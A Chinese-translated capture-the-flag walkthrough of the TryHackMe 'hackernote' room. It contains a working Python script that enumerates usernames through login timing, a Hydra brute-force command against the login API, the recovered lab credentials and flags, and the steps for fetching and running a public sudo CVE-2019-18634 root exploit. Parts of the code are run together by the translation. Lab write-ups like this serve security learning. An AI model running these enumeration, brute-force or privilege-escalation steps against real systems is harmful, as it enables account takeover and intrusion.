




# 黑客注意尝试攻击我(报道/演练)

> 原文：<https://infosecwriteups.com/hackernote-try-hack-me-write-up-walkthrough-504a55b05d96?source=collection_archive---------3----------------------->


# 介绍

这是一个关于自定义 web 应用程序的中型[房间](https://tryhackme.com/room/hackernote)，介绍用户名枚举、自定义单词列表和基本的权限提升利用，请随时在 [Twitter](https://twitter.com/Nouureldin_Ehab) 或 [Linkedin](https://www.linkedin.com/in/noureldin-ehab-a57940190/) 问我任何问题

# 任务 1 侦察

在任何 CTF 中，我们需要做的第一件事就是使用 [Nmap](https://nmap.org/) 扫描打开的端口(如果你不知道什么是 Nmap，我建议你查看一下[这个房间](https://tryhackme.com/room/furthernmap))

```
sudo nmap -sS -vv -sV -Pn {Add your machine ip here}
```

=> -sS 标志用于 TCP SYN 扫描

=> -vv 标志，用于增加详细级别

=> -Pn 标志告诉 Nmap 跳过 ping 测试，只扫描提供的每个目标主机

=> -sV 标志用于版本扫描

请访问[文档](https://nmap.org/docs.html)了解更多关于标志和如何使用它们的信息



Nmap 输出

*   哪些端口是开放的？(按数字顺序)

`22,80,8080`

*   后端是用什么编程语言写的？

`Go`

# 任务 2 调查

现在，对于最重要的部分，手动检查网站
我们可以尝试:

*   创建帐户
*   使用错误的用户名
    登录(错误信息立即出现)
*   使用错误密码登录
    (几秒钟后出现错误信息)
*   尝试默认凭据(管理员:管理员)
*   忘记密码
*   检查源代码

注意“用错误的用户名登录”和“用错误的密码登录”之间的时间差。我们可以使用这个时间差来枚举现有的用户帐户

# 任务 3 利用

让我们使用 firefox 或 burp suite 中的开发工具来检查请求



这里我们可以看到登录是对/api/user/login 的 POST 请求。这意味着我们可以使用 CURL、python 或您选择的其他编程语言来提出这个请求。

## **利用时间:**

**注意:** 首先，试着自己写剧本，如果你卡住了，试着逐行分析给定的剧本

**代码:**

```
import requests as r
import time
import json
URL = "[http://localhost:8081/api/user/login](http://localhost:8081/api/user/login)"
USERNAME_FILE = open("names.txt", "r")
usernames = []
for line in USERNAME_FILE:  # Read in usernames from the wordlist
    usernames.append(line.replace("\n", ""))timings = dict()def doLogin(user):
    creds = {"username": user, "password": "invalidPassword!"}
    response = r.post(URL, json=creds)
    if response.status_code != 200:  # This means there was an API error
        print("Error:", response.status_code)print("Starting POST Requests")for user in usernames: startTime = time.time()
    doLogin(user)
    endTime = time.time() timings[user] = endTime - startTime

    time.sleep(0.01)print("Finished POST requests")largestTime = max(timings.values())
smallestTime = min(timings.values())

print("Time delta:", largestTime-smallestTime, "seconds (larger is better)")for user, time in timings.items():
    if time >= largestTime * 0.9: print(user, "is likely to be valid")
```

**代码逐步分析:**

*   首先，我们导入我们需要的库，如下图所示

```
import requests as r
import time
import json
```

***-*** **请求:**
请求库是用 Python 制作 HTTP 请求的事实上的标准。它将发出请求的复杂性抽象在一个漂亮、简单的 API 后面，以便您可以专注于与服务进行交互并在应用程序中使用数据
**-****time:** Python 时间模块提供了许多用代码表示时间的方式，如对象、数字和字符串。它还提供了除了表示时间之外的功能，比如代码执行过程中的等待和衡量你的代码效率 **-JSON:** JSON 模块主要用于将上面的 python 字典转换成可以写入文件的 JSON 字符串。虽然 JSON 模块会将字符串转换为 Python 数据类型，但通常 JSON 函数用于直接从 JSON 文件中读取和写入。

*   现在我们开始编写脚本。首先，我们需要添加网站 URL

```
URL = "[http://localhost:8081/api/user/login](http://localhost:8081/api/user/login)"
```

*   现在我们添加将要尝试的用户名列表(带有一个 read 参数)

```
USERNAME_FILE = open("names.txt", "r")
```

*   现在我们将用户名添加到一个数组中

```
usernames = []
for line in USERNAME_FILE:  # Read in usernames from the wordlist
    usernames.append(line.replace("\n", ""))
```

*   制作一个字典来添加计时
    (这就是为什么使用 JSON 库)

```
timings = dict()
```

*   向 API 发出 HTTP 请求

```
def doLogin(user):  # Make the HTTP request to the API
    creds = {"username": user, "password": "invalidPassword!"}
    response = r.post(URL, json=creds)
    if response.status_code != 200:  # This means there was an API error
        print("Error:", response.status_code)

print("Starting POST Requests")
```

*   为列表中的每个用户执行一个请求，并检查需要多长时间

```
for user in usernames:
    # Do a request for every user in the list, and time how long it takes
    startTime = time.time()
    doLogin(user)
    endTime = time.time()
    # record the time for this user along with the username
    timings[user] = endTime - startTime
    # Wait to avoid DoSing the server which causes unreliable results
    time.sleep(0.01)print("Finished POST requests")
```

*   检查哪些请求花费的时间更长

```
# Longer times normally mean valid usernames as passwords were verified
largestTime = max(timings.values())
smallestTime = min(timings.values())
# Ideally the smallest times should be near instant, and largest should be 1+ seconds
print("Time delta:", largestTime-smallestTime, "seconds (larger is better)")
```

*   打印耗时较长的用户名

```
# A valid username means the server will hash the password
# As this takes time, the longer requests are likely to be valid users
# The longer the request took, the more likely the request is to be valid.
for user, time in timings.items():
    if time >= largestTime * 0.9:
        # with 10% time tolerence
        print(user, "is likely to be valid")
```

**为什么耗时会改变？**

后端故意写得很差。只有当服务器收到正确的用户名时，它才会尝试验证用户的密码。下面的伪代码可以更好地解释这一点。

```
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```

现在我们知道了脚本是如何工作的，让我们运行它

```
chmod 777 exploit.py
python3 exploit.py
```

**注意:** 不要忘记在 exploit.py 文件所在的目录下添加 names.txt 文件

*   列表中有多少用户名是有效的？

```
1
```

*   什么是有效的用户名？

```
james
```

# 任务 4 攻击密码

**下一步**

现在我们有了用户名，我们需要一个密码。因为密码是用 bcrypt 散列的，并且需要相当长的时间来验证，所以用像 RockYou 这样的大型单词表进行暴力破解是不可行的。
还好这个 web app 有密码提示！

使用我们在上一步中找到的用户名，我们可以检索密码提示。根据这个密码提示，我们可以创建一个单词列表，并(更)有效地破解用户的密码。

**密码提示:** 我喜欢的颜色和我喜欢的数字

这很简单，我们需要做的就是创建两个单词的列表，一个用于颜色，另一个用于数字，然后用一个叫做 [Hashcat Util 的组合器](https://hashcat.net/wiki/doku.php?id=hashcat_utils)的工具将它们组合在一起

现在，我们将下载 2 个单词列表，并将它们组合在一起，然后使用 hydra 强行登录 API

```
./combinator.bin colors.txt numbers.txt > wordlist.txt
```

现在我们要建立九头蛇指挥部

```
hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
```

这可能看起来势不可挡，但不要担心，我们会分析它

**攻击 API:**

我们之前捕获的 HTTP POST 请求告诉了我们足够多的关于 API 的信息，我们可以使用 Hydra 来攻击它。
该 API 实际上被设计成接受表单数据或 JSON 数据。前端将 JSON 数据作为 POST 请求发送，所以我们将使用这个。Hydra 允许利用 HTTP-POST 模块攻击 HTTP POST 请求。要使用它，我们需要:

```
Request Body — JSON
{“username”:”admin”,”password”:”admin”}
Request Path -
/api/user/login
Error message for incorrect logins -
“Invalid Username Or Password”
```

该命令是(用尖括号替换部分，您将需要转义特殊字符):

```
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```

*   你的单词表里有多少个密码？

```
wc -l wordlist.txt180
```

*   用户的密码是什么？

```
blue7
```

现在我们瞧；从我们得到的凭证开始

```
username: james
password: blue7
```

我们发现这写在笔记里



*   用户的 SSH 密码是什么？

```
dak4ddb37b
```

现在，我们可以使用获得的凭证登录 ssh

```
IP: {insert the tryhackme machine ip}
username: james
password: dak4ddb37bssh username@ip
passwordssh james@ip
dak4ddb37b
```



使用 ssh 登录

我们在 yaaaaay

现在让我们“ls”，我们发现了一个名为 user.txt 的文件，让我们看看里面使用了什么

```
cat user.txt
```

嘭，我们找到了旗子

*   用户标志是什么？

```
thm{56911bd7ba1371a3221478aa5c094d68}
```

**列举特权**

现在您有了一个 SSH 会话，您可以获取用户标志了。但这对你来说还不够，你需要根。
提升权限的第一步是看你是否能运行 sudo。您拥有当前用户的密码，因此可以运行命令:

```
sudo -l
```

这个命令告诉您作为 sudo 的超级用户可以运行哪些命令。遗憾的是，当前用户不能以 root 用户身份运行任何命令。但是，您可能已经注意到，当您输入密码时，您会看到星号。这不是默认行为。最近发布的 CVE 影响了这种配置。该设置称为 pwdfeedback。

通过谷歌搜索，我们可以找到 CVE

*   该漏洞的 CVE 数是多少？

```
CVE-2019-18634
```

让我们找到并下载并利用这个 CVE，我在 Github 上找到了这个

```
 git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
 cd sudo-cve-2019-18634/
 make
 scp exploit {user}@{ip}
```

现在让我们运行利用程序

```
./exploit
```

我们是 ROOOOT yaaay

现在我们来找旗子

```
cat /root/root.txt
```

*   根旗是什么？

```
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

# /etc/外卖

我了解了利用时间差来枚举现有用户名的方法

# 时事通讯

我将分享我的学习之旅，网络安全新闻，新简历和学习资源，以及更多，请随时[订阅](https://www.getrevue.co/profile/Noureldin_Ehab)😊请不要忘记喝水🌊

# ⭐I 喜欢与不同的人联系，所以如果你想打招呼，我会很高兴见到你！:)

[**LinkedIn**](https://www.linkedin.com/in/noureldin-ehab-a57940190/)[**Twitter**](https://twitter.com/Nouureldin_Ehab)

Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和充满力量的讨论会议。 [**查看更多详情并在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)